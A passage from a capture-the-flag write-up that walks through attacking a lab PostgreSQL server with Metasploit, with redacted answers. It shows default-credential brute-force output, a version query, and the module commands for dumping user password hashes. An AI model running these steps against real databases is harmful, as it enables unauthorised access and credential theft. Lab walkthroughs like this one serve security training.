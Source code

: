     [-] 10.10.219.185:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
    [+] 10.10.219.185:5432 - Login Successful: postgres:[REDACTED]@[REDACTED]
    [-] 10.10.219.185:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
    [-] 10.10.219.185:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```

- [x] Based on the results of #6, what is the rdbms version installed on the server?
  
    * `use` `auxiliary/admin/postgres/postgres_sql`
    * `set` `PASSWORD` `[REDACTED]`

    ```sql linenums="1" hl_lines="9"
    msf6 auxiliary(admin/postgres/postgres_sql) > run
    [*] Running module against 10.10.219.185

    Query Text: 'select version()'
    ==============================

        version
        -------
        PostgreSQL [REDACTED] on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bi
        t

    [*] Auxiliary module execution completed
    ```


- [x] What is the full path of the module that allows for dumping user hashes (starting with auxiliary)? How many user hashes does the module dump? 
  
    * msf6 > `search type:auxiliary postgres hash`
    * `use` `auxiliary/scanner/postgres/postgres_hashdump`
    * `set` `PASSWORD` `[REDACTED]`
    * `set` `DATABASE` `[REDACTED]`
